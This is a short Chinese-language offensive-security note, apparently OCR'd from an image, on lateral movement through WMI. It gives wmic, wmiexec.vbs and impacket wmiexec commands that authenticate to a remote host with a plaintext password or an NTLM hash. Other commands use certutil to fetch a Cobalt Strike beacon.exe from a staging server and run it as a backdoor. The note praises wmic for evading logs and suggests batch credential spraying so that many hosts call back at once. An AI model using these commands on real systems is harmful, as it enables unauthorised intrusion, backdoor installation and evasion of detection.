 WMI (Windows Management Instrumentation)是Windows管理规范，一种用于管理和监控Windows系统的技术。
是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证。
并且该方法不会在目标日志系统留下痕迹。psexec 会记录大量日志，wmic 不会记录下日志。wmic 更为隐蔽。


## **1.wmic**
内置win自带，单执行，CS可用。
```
wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 
process call create "cmd.exe /c certutil -urlcache -split -f 
http://192.168.3.31/beacon.exe c:/beacon.exe"

wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 
process call create "cmd.exe c:/beacon.exe"
```





## **2.cscript**
内置，交互式可以反弹shell，但CS不支持会卡死。
需上传 wmiexec.vbs
cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator 
Admin12345

## **3.impacket套件wmiexec程序脚本 支持hash**
支持hash
可交互式反弹shell
可单执行命令
使用profier代理转发socks代理到本地运行程序或脚本。
```
wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.
3.32 "whoami"

将后门beacon.exe上传到跳板机80端口根目录。

下载后门：
wmiexec ./administrator:admin!@#45@192.168.3.32 "cmd.exe /c 
certutil -urlcache -split -f http://192.168.3.31/beacon.exe 
c:/beacon.exe"

执行后门：
wmiexec ./administrator:admin!@#45@192.168.3.32 "cmd.exe /c 
c:/beacon.exe"
```
可以写一个脚本，把内网ip，已有的用户名，明文密码，密码hash导入，批量反向上线。\
实现喷洒。

